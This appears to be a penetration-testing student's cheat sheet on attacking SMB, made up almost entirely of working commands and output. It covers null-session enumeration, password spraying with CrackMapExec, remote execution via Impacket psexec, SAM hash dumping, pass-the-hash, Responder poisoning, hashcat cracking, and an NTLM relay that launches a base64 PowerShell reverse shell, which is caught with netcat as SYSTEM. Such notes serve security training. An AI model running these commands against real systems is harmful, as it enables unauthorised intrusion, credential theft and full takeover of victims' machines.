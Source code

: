 ### Attacking SMB

```
# Enumeration

# For instance, on Windows, SMB can run directly over port 445 TCP/IP without the need for NetBIOS over TCP/IP, 
# but if Windows has NetBIOS enabled, or we are targetting a non-Windows host, we will find SMB running on port 139 TCP/IP. 
# This means that SMB is running with NetBIOS over TCP/IP. 
# (UDP ports: 137 and 138.)

sudo nmap 10.129.14.128 -sV -sC -p139,445       # check ports with nmap
```

```
# Misconfigurations

# SMB can be configured not to require authentication, which is often called a null session. 
# Instead, we can log in to a system with no username or password.

smbclient -N -L //10.129.14.128                # list of the server's: -L, use the null session: -N
smbmap -H 10.129.14.128                        # basic example of submap
smbmap -H 10.129.14.128 -r notes               # recursive search in notes share
smbmap -H 10.129.14.128 --download "notes\note.txt"         # download if have READ permissions
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"  # upload if have WRITE permissions

rpcclient -U'%' 10.10.110.17                   # tool with a null session to enumerate a target host
rpcclient $> enumdomusers                      #  enumerate users inside host
```

[cheat sheet from the SANS Institute](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf)

```
./enum4linux-ng.py 10.10.11.45 -A -C            # tool for enumeration with wide options
```

[enum4linux repo](https://github.com/cddmp/enum4linux-ng)

### Protocol Specifics Attacks

```
# If a null session is not enabled, we will need credentials to interact with the SMB protocol. 
# Two common ways to obtain credentials are brute forcing and password spraying.
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

```
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth

# Using the --continue-on-success flag will continue spraying even after a valid password is found. 
# it is very useful for spraying a single password against a large user list. 
# Additionally, if we are targetting a non-domain joined computer, we will need to use the option --local-auth. 
```


### Remote Code Execution (RCE)

```
# PsExec is a tool that lets us execute processes on other systems, 
# complete with full interactivity for console applications, without having to install client software manually. 
# It works because it has a Windows service image inside of its executable.
```

[PsExec from MS site](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

[ImpacketPsExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) 

```
# Python PsExec like functionality example using RemComSvc
```

[Impacket SMBExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

```
# A similar approach to PsExec without using RemComSvc.
```

[Impacket atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)

```
# This example executes a command on the target machine through the 
# Task Scheduler service and returns the output of the executed command.
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

```
# includes an implementation of smbexec and atexec.
```

[Metasploit PsExec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/psexec.md)

```
Ruby PsExec implementation.
```

### Impacket PsExec

```
impacket-psexec -h                                               # help command to show all options
impacket-psexec administrator:'Password123!'@10.10.110.17        # basic example of command
```  

### CrackMapExec

```
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec # Login through smb
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users      # Enumerating Logged-on Users
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam                   # Extract Hashes from SAM Database
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE       # Login with Pass-the-Hash (PtH)
```

### Forced Authentication Attacks

[Responder](https://github.com/lgandx/Responder)

```
responder -I <interface name>
sudo responder -I ens33
```

[hashcat](https://hashcat.net/hashcat/)

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt   # cracking pass with related tool module -m 5600
```

```
# The NTLMv2 hash was cracked. The password is P@ssword. 
# If we cannot crack the hash, we can potentially relay the captured hash 
# to another machine using impacket-ntlmrelayx or Responder MultiRelay.py. 

# First, we need to set SMB to OFF in our responder configuration file (/etc/responder/Responder.conf).

cat /etc/responder/Responder.conf | grep 'SMB ='

# Then we execute impacket-ntlmrelayx with the option --no-http-server, -smb2support, 
# and the target machine with the option -t.

impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146

# We can create a PowerShell reverse shell using https://www.revshells.com/, 
# set our machine IP address, port, and the option Powershell #3 (Base64).

impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e JABjAGwAaQBlAG4AdAAgA...ACkA'

# Once the victim authenticates to our server, we poison the response 
# and make it execute our command to obtain a reverse shell.

nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.10.110.133] from (UNKNOWN) [10.10.110.146] 52471

PS C:\Windows\system32> whoami;hostname

nt authority\system
WIN11BOX
```

### Task Solution

```

```

